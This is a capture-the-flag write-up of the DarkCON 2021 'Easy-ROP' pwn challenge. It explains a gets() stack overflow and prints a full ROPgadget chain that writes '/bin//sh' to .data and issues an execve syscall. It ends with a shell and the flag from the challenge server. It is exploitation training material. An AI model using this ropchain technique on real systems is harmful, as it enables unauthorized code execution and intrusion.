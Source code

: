 # Easy-ROP - DarkCON 2021

- Category: Pwn
- Points: 441
- Solves: 84
- Solved by: Lu191

## Description

Welcome to the world of pwn!!! This should be a good entry level warmup challenge !! Enjoy getting the shell

`kali@kali:~/# nc 65.1.92.179 49153`

```
Welcome to the darkcon pwn!!
Let us know your name:
```

## Analysis

The program just read from the stdin and then exit. As the name of the challenge suggest this seems to be an easy buffer overflow challenge, so we try to 
pass a very long string to the stdin and we see that the program crashes with a segmentation fault as we expected, so lets analyze the code and confirm this.
We analyze it with ghidra and looking at main() funtcion we confirm that there is a buffer overflow because this program use the function gets() to read from the stdin.

```
void main(void)

{
  char local_48 [64];
  
  setvbuf((FILE *)stdin,(char *)0x0,2,0);
  setvbuf((FILE *)stdout,(char *)0x0,2,0);
  setvbuf((FILE *)stderr,(char *)0x0,2,0);
  alarm(0x40);
  puts("Welcome to the darkcon pwn!!");
  printf("Let us know your name:");
  gets(local_48);
  return;
}
```

So in order to overwrite the IP (Instruction Pointer) we have first to overwrite the stack with 72 chars (64 array's length + 8 for the Frame Pointer) with junk.
Let's check the properties of the executable.

`kali@kali:~/# checksec easy-rop`

```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```

We don't have PIE enabled so any static ROPchain should work fine.
We see with a few tries with pwndbg that the Canary found should not be a problem because it will not be overwritten with a small ropchain.

## Solution

We try to automate the process of creation of the ropchain using a tool called ROPGadget.

`kali@kali:~/# ROPgadget --binary easy-rop --ropchain`

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x00000000004175eb) # pop rax ; ret
p += '/bin//sh'.encode()
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040191a) # pop rdi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x000000000040181f) # pop rdx ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
```

Let's analyze the ropchain it built.
We will spawn our shell using syscall and execve which both take a few arguments, let’s look at syscall first:

`syscall(RAX, RDI, RSI, RDX)`

The RAX (Accumulator register) will hold the system call number where we will call execve (number 59 or 0x3b in hexadecimal).
The RDI (Destination Index register) argument will point to /bin/sh.
The RSI and RDX (Source Index register and Data register) are additional arguments that we will zero out.

Since PIE (Position Independent Executable) isn't enabled we know that the .data address won't change from run to run. So, this is a great place to store /bin/sh in memory. Let's check our section permissions and check our .data section address.
We use readelf to copy the address where the .data section starts.

`kali@kali:~/# readelf -t easy-rop`

```
There are 32 section headers, starting at offset 0xd4678:

Intestazioni di sezione:
[N°] Nome   Tipo      Indirizzo         Offset            Link    Dimensione       DimEnt           Info  Allin    Flag
...
[21] .data  PROGBITS  00000000004c00e0  00000000000bf0e0  0       0000000000001a30 0000000000000000  0    32       [0000000000000003]: WRITE, ALLOC
...
```

So we first set rsi with the address where the .data section starts, then we set rax that now contains the string "/bin//sh" we use two forwardslash due to padding.
Then we copy the string "/bin//sh" in memory (.data section).

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x00000000004175eb) # pop rax ; ret
p += '/bin//sh'.encode()
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
```

We write a null byte to the address where is located the .data section + 8, then we set the right values for the three registers that will be used for the syscall, now we the RDI argument will point to /bin/sh string located where the .data section starts and the RSI and RDX point to the null byte located at the address of .data + 8, so they are zero out.

```
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000481e65) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x000000000040191a) # pop rdi ; ret
p += pack('<Q', 0x00000000004c00e0) # @ .data
p += pack('<Q', 0x000000000040f4be) # pop rsi ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
p += pack('<Q', 0x000000000040181f) # pop rdx ; ret
p += pack('<Q', 0x00000000004c00e8) # @ .data + 8
```

Our final steps are to set 0x3b (execve syscall) into RAX (this is done setting first rax to 0 xoring rax with rax and then adding 1 to rax until it reaches 0x3b, so 59 times) and then invoke our syscall.

```
p += pack('<Q', 0x0000000000446959) # xor rax, rax ; ret
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
...
p += pack('<Q', 0x00000000004774d0) # add rax, 1 ; ret
p += pack('<Q', 0x00000000004012d3) # syscall
```

`kali@kali:~/# python3 exploit.py`

```
[+] Opening connection to 65.1.92.179 on port 49153: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000(challenge) groups=1000(challenge)
$ ls
easy-rop
flag
run.sh
ynetd
$ cat flag
darkCON{w0nd3rful_m4k1n9_sh3llc0d3_us1n9_r0p!!!}
```
